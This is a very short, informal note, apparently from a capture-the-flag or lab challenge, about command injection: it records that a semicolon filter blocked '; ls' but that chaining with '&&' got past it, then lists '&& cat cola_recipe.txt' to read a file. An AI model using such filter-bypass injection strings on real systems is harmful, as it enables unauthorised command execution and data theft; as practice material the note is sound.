 command injection

there was a semicolon filter. So ; ls does not work

but && ls did work pog


&& cat cola_recipe.txt
